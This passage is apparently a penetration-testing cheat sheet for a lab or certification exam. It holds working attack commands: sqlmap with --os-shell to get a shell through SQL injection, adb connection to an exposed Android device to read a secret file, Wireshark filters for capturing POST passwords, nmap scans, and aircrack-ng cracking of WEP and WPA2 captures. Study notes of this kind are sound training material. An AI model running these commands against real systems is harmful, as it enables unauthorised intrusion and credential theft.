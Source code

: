 ```
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell

6.1 In the shell type:
TASKLIST  (to view the tasks)
6.2 Use systeminfo for windows to get all OS version
6.3 Use uname -a for linux to get os version
```
{% endcode %}

## Android

{% code overflow="wrap" %}
```
1- nmap ip -sV -p 5555    (Scan for adb port)
2- adb connect IP:5555    (Connect adb with parrot)
3- adb shell              (Access mobile device on parrot)
4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)
```
{% endcode %}

## Wireshark

<pre data-overflow="wrap"><code>tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given
<strong>
</strong><strong>tcp.flags.syn == 1   (Which machine for dos)
</strong>http.request.method == POST   (for passwords) or click tools ---> credentials
Also
</code></pre>

## Find FQDN

```
nmap -p389 –sV -iL <target_list>  
nmap -p389 –sV <target_IP> (Find the FQDN in a subnet/network)
```

## Cracking Wi-Fi networks

{% code overflow="wrap" %}
```
aircrack-ng [pcap file] (For cracking WEP network)
aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file] (For cracking WPA2 or other networks through the captured .pcap file)

```
{% endcode %}

## Health Checks
